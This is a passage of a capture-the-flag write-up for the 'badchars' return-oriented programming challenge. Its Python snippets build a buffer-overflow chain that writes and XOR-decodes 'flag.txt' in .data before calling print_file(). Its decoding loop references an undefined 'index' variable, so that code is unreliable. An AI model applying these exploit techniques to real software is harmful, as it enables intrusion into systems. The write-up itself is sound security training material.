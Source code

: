 ```python
ENCODED_1 = encode(b"flag.txt", extend_byte(0xa9), b"xga.")
```

## Copy the string to `.data`

Next we move the encrypted "flag.txt" to the `.data` section (which from the output of the `rabin2 -S ./badchars` command tells us is read/writeable). This operation should be similar to what we did in `./write4`. We assume that the memory region around our target destination are all filled with zeroes, so we don't have to copy `b"\x00"*8` after our encrypted "flag.txt".

```python
DATA = 0x601028 # .data
POPR12R13R14R15 = p64(0x40069c) # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
MOVR13R12 = p64(0x400634) # mov qword ptr [r13], r12 ; ret

attack = b"A"*0x28 + POPR12R13R14R15 + ENCODED_1 + p64(DATA) + b"B"*16
# attack += POPR12R13R14R15 + b"\x00"*8 + p64(DATA+8) + b"JUNK"*4
# r13 -> .data
# r12 -> encoded string
attack += MOVR13R12 # move encoded string into .data
```

Since the gadget at `0x40069c` also pops `r14` and `r15` which we don't intend to use just yet, we can let it pop junk data, in this case a 16 bytes long string of 'B', with each of the 2 unused registers taking 8 bytes of the junk.

## Decode the encoded string

Here comes the fun part. We can now use the same key we used to encode "flag.txt" to decode it back to the original string using the same XOR cipher. To do that, we need to use the `xor` gadget we found earlier using `ROPgadget --binary ./badchars --ropchain`. However, since the `xor` gadget that we discovered only allows us to perform a XOR operation one byte at a time, we have to repeat that gadget 8 times, with each iteration pointing to the memory address of the next byte in the "flag.txt" string in .data.

```python
DATA = 0x601028 # .data
POPR14R15 = p64(0x4006a0) # pop r14 ; pop r15 ; ret
XORBR15R14 = p64(0x400628) # xor byte ptr [r15], r14b ; ret

for i in range(8):
    attack += POPR14R15
    attack += p64(0xa9) # pop the key into r14
    attack += p64(DATA+index) # the memory address of the byte we want to decode
    attack += XORBR15R14 # perform the XOR cipher with r14 as the key and r15 as the memory address
```

## Call `print_file()`

Now that we have decoded our string, we can pass the memory address of that string into `rdi` and call `print_file()`.
